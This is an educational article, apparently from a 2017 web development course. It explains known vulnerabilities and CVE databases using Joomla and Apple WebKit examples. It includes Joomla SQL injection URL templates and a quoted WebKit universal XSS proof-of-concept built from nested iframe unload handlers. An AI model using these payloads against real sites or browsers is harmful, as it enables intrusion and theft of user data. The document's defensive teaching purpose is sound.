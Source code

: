 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including cross site scripting, SQL injection, insecure file uploads, 
authentication bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities to a Database?
----------------------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. That being said, no software has been proven to be airtight, and 
vulnerabilities are being released every day to help combat mischievous 
attackers. These applications can be developed by anyone from small, upcoming 
businesses to software powerhouses. Below are two applications that are 
known to have vulnerabilities, including information on how to combat them. 

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Because their product has been used to create millions of websites, 
security should be a primary concern to protect their partners and their 
partners' users. That being said, there is an extensive list in the Exploit 
Database with recent vulnerabilities with the Joomla application. Known 
vulnerabilities include:

**SQL Injection**

.. image:: sql_injection.gif

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. 
`Here <http://2017-web-development.readthedocs.io/en/latest/sql_injection/sql_injection.html>`_ 
is a link with more information regarding SQL injections. Below is an example of 
how the SQL injection could be implemented into a URL to access another person's 
messages in Joomla MSG [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

To protect against this, the web application should have steps in place to 
remove system database privileges from normal users. This will prevent an 
attacker from making their own queries into the database, assuming they haven't 
found a way to bypass the authentication of the database. 

**Insecure File Upload**

.. image:: insecure_file_upload.png

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. More information on insecure file upload can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/directory_traversal/directory_traversal.html>`_. In order to prevent this type of vulnerability, the 
JEM should restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. Developers can use Apple WebKit to create their own web browsers. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

.. image:: xss.png

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies. A further description 
of XSS can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/xss/xss.html>`_.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

**Use After Free**

Use after free is an issue that targets memory corruption, attempting to access 
memory after it has been freed by the RAM. This attack can cause the 
application, or web browser, to crash. In more serious instances, this 
vulnerability can lead to the attacker remotely executing code on the user's 
computer [UAF]_. This vulnerability was found in regards to Apple's WebKit in 
the HTMLFormElement::reset() function. There was a flaw in how the software 
accessed the associated elements variable, which was able to be modified by the 
reset function. By adding custom elements to the variable while it is iterated, 
the already-existing elements are pushed forward, letting the attacker execute 
his or her own data [EDB]_. 

Prevention of Known Vulnerabilities
-----------------------------------

In order to protect your web projects, there are plenty of companies that 
perform security tests that spot weak points in your code. They can pull from 
CVE databases in order to attack your code in every which way, letting you know 
exactly how attackers will attempt to breach your security. Utilizing their 
services, as well as performing security tests of your own, is paramount in 
creating a safer, more secure internet. There are also update options offered 
by many CVE database sites, notifying you of any recent breaches in applications 
like yours. Therefore, using these databases and checking for past security 
exploits is the best way to prevent attackers from manipulating your website via 
known vulnerabilities. 


Works Cited
-----------
.. [JOO] "`Joomla.org." <https://www.joomla.org/>`_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [EDB] "`Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [UAF] Stroud, Forrest. "`Use After Free." <http://www.webopedia.com/TERM/U/use-after-free.html>`_ What Is Use After Free? Webopedia Definition. N.p., n.d. Web. 26 Feb. 2017."
.. [AWK] "`WebKit." <https://webkit.org/>`_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "`What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.